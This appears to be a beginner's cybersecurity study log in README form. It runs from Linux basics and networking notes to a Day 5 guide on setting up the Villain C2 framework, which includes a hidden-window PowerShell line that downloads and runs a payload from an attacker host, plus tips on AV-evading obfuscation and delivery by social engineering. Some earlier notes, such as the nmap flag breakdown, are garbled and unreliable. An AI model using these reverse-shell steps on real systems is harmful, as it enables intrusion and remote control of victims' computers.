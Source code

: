 # Day 01
Welcome to my Repositiory

# Day 02
How to download **virtual box**.
How to download **kali linux**.

# Day 03
**Command lines:**
clear-clears the terminal screen
cd-home directory(home)
ls-list the files
pwd-shows current directory
mkdir-create a new directory
rm-delete a file`

# Day 04
**IPV4 - IPV 6 DIFF:**
Here's a detailed comparison between IPv4 and IPv6, the two major versions of the Internet Protocol:
=> Key Differences
-> Address Space
- IPv4: Limited to ~4.3 billion addresses.
- IPv6: Vast space to support trillions of devices, solving address exhaustion.
  -> Security
- IPv4: Relies on external protocols like IPSec.
- IPv6: Has built-in IPSec for secure communication.
  -> Configuration
- IPv4: Requires manual setup or DHCP.
- IPv6: Supports auto-configuration and renumbering.
  -> Transmission
- IPv4: Uses broadcasting, which can cause network congestion.
- IPv6: Uses multicast and anycast, improving efficiency.

-> Transition Strategies
- Dual Stack: Devices run both IPv4 and IPv6 simultaneously.
- Tunneling: IPv6 packets are encapsulated in IPv4 for compatibility.
- Translation (NAT64): Converts IPv6 to IPv4 and vice versa.

**UDPS BROTHER OF TCP:**
Imagine sending a message across a river:
- TCP builds a bridge first, checks every step, and ensures the message arrives safely and in order.
- UDP just tosses the message across — fast, but risky. If it lands, great. If not, it doesn’t care.

**DYNAMIC AND STATIC  IP ADDRESS**:
- Static IP: Like a permanent home address — always the same, easy to find.
- Dynamic IP: Like a hotel room — changes every time you check in.

- Static IP: Request from ISP or configure manually in device settings.
- Dynamic IP: Automatically assigned by DHCP server (default for most ISPs).

- Which One Should You Use?
- Choose Static IP if:
  =You're hosting a server or website.
  =You need consistent remote access.
  =You're using VoIP or VPN services.
- Choose Dynamic IP if:
  =You're a regular user browsing the internet.
  =You want better privacy and lower cost.
  =You don’t need fixed access to your device.

**NETWORK:**
 Nodes: Devices like computers, printers, or phones
 Transmission Media: Wired (Ethernet, fiber) or wireless (Wi-Fi, Bluetooth)
 Networking Devices:
- Router: Connects different networks
- Switch: Connects devices within a LAN
- Hub: Broadcasts data to all devices
- Modem: Converts digital to analog signals

**IP ADDRESS:**
- Identification: Each device gets a unique IP to identify it on the network.
- Routing: Routers use IPs to forward data packets to the correct destination.
- Communication: IPs are embedded in every packet to ensure accurate delivery.
- NAT (Network Address Translation): Converts private IPs to public IPs for internet access.
   How to Find Your IP Address?
- Windows: ipconfig in Command Prompt
- Linux: ip a or ifconfig
  

**MAC ID:**
A MAC ID (Media Access Control Identifier) is a unique hardware address assigned to a network interface card (NIC) by the manufacturer. It operates at the Data Link Layer (Layer 2) of the OSI model and is used for local network communication.

PAYLOAD - IS LIKE SHUTTER OF ROCKET:
In computer networking, a payload is the actual data being transmitted in a packet. It excludes headers, metadata, or control information used for routing and delivery.
Cybersecurity
- In malware, the payload is the malicious part that performs harmful actions (e.g., deleting files, encrypting data).
- The rest of the virus may just be for spreading or hiding.


HOW THE DATA IS TAKEN:
-FIRST IT COMPROMISES ALL THE OS(WINDOWS,MAC,KALI LINUX)
-SPAM UAC PRMOPT - CONTINUOUS OR LOOPED PERMISSION NOTICE UNTILL GETTING GRANT FOR ADMINISTRATIVE ACCESS THEN FULL CONTROL IS TAKEN BY THE HACKER. 
WHAT IS CURSOR...
RECONNAISSANCE..
PASSIVE AND ACTIVE INFORMAION GATHERING --NOTES
WAYBACK MACHINE - WEBSITE WHERE YOU CAN SEE THE HISTORY OF THE URL 

**CLOUDFLARE:**
is a global cloud platform that provides security, performance, and reliability services for websites, applications, and networks. It acts as a reverse proxy between users and web servers, offering protection and acceleration


Bn-As-O-oN--script-vv-p-sS-sT:
- -Bn: This doesn't match any standard Linux or networking command. It might be a custom flag used in a script or tool.
- -As: Could possibly stand for "assign" or "asynchronous," but it's not a standard option in common tools.
- -O: Often used to mean "optimize" or "output" in various commands.
- -oN: This is a valid Nmap option that specifies output in normal format.
- --script: A common flag in tools like Nmap to run a specific script.
- -vv: A verbosity flag used in many tools (like Nmap or curl) to increase the amount of output detail.
- -p: Used to specify a port number, especially in Nmap.
- -sS: A TCP SYN scan option in Nmap, used for stealth scanning.
- -sT: A TCP connect scan option in Nmap, used when SYN scan isn’t possible.
So, if this is part of an Nmap command

# Day 05
**Creating Reverse shell for Windows Hacking using Villain FrameWork**

Villain is a high-level Stage 0/1 command-and-control (C2) framework that:
- Handles multiple reverse TCP and HoaxShell-based shells
- Enhances shell functionality with built-in utilities
- Supports session sharing across sibling servers (other Villain instances)
- Offers payload generation, obfuscation, and fileless execution features

**Install Villain on Kali Linux**
Villain is optimized for Kali Linux but can be adapted for other platforms with Python support.
**code snippets:**
git clone https://github.com/t3l3machus/Villain
cd Villain
pip3 install -r requirements.txt
sudo apt install gnome-terminal

**Generate Payload**
Villain supports PowerShell-based payloads
**code snippets:**
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<port>/payload.ps1')"

You can use Villain’s built-in payload generator or customize your own:
**code snippets:**
python3 Villain.py -p 443

**Obfuscate Payload (Optional)**:
**Villain includes auto-obfuscation to bypass AV:**
- Encodes PowerShell commands
- Wraps them in try-catch blocks to preserve stderr
- Avoids common shell hang-ups.
**Execution on Target (Windows):**
- Use social engineering or exploit delivery to run the obfuscated PowerShell payload on the target.
- Once executed, the shell connects back to your Villain server.
**Legal Disclaimer:**
Using Villain or any reverse shell against systems without explicit permission is illegal. This tool is intended for authorized penetration testing and CTF environments only.
**Villain Framework – Command Reference:**
A categorized list of Villain C2 Framework commands with their uses.
Use this for penetration testing in authorized lab environments only.






